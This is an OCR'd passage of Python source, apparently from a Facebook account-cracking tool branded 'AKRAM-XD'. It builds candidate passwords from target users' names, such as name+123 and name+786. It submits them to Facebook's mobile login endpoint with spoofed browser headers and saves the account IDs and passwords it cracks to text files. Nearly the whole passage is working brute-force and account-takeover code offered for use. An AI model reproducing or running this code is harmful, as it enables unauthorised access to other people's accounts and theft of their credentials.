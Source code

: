                                 first_name = names.rsplit(' ')[0]
                                try:
                                        last_name = names.rsplit(' ')[1]
                                except IndexError:
                                        last_name = 'Khan'
                                fs = first_name.lower()
                                ls = last_name.lower()
                                passlist = [fs+ls,fs+' '+ls,fs+'123',fs+'12345',fs+'1122',fs,fs+'1234',fs+'786',fs+'12']
                                usman.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python akram.py')
def ffb(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write('\r\r\033[1;37m [AKRAM-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(' ')[0]
                try:
                        last = names.split(' ')[1]
                except:
                        last = 'Khan'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post('https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        usman=session.cookies.get_dict().keys()
                        if "c_user" in usman:
                                coki=session.cookies.get_dict()
                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print('\r\r\033[1;32m [AKRAM-OK] %s | %s'%(ids,pas))
                                open('/sdcard/AKRAM-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in usman:
                                if 'y' in pcp:
                                        print('\r\r\x1b[38;5;208m [Akram-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/akram-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else: